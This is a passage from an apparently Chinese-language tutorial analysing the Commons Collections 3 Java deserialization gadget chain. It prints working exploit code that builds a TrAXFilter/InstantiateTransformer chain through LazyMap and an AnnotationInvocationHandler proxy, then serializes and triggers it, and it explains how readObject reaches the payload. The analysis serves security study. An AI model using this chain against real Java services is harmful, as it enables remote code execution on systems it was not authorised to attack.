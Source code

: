 ```

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };

        ChainedTransformer chain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        LazyMap outmap = (LazyMap) LazyMap.decorate(innermap,chain);

        Class DawnT0wn = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = DawnT0wn.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);

        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class,outmap);
        Map mapproxy = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},handler);
        handler = (InvocationHandler) constructor.newInstance(Retention.class,mapproxy);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CC3.bin"));
        os.writeObject(handler);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("CC3.bin"));
        fos.readObject();
    }
    public static void setFiledValue(Object obj,String Filename,Object value) throws Exception
    {
        Field field = obj.getClass().getDeclaredField(Filename);
        field.setAccessible(true);
        field.set(obj,value);
    }
}
```

AnnotationInvocationHandler实现了InvocationHandler接口,并且重写了readObject和invoke方法,可以利用动态代理,将InvocationHandler作为处理器,然后调用处理器的任意方法的时候触发invoke

在readObject中会执行这行代码

```
Iterator var4 = this.memberValues.entrySet().iterator();
```

看看该类的构造器
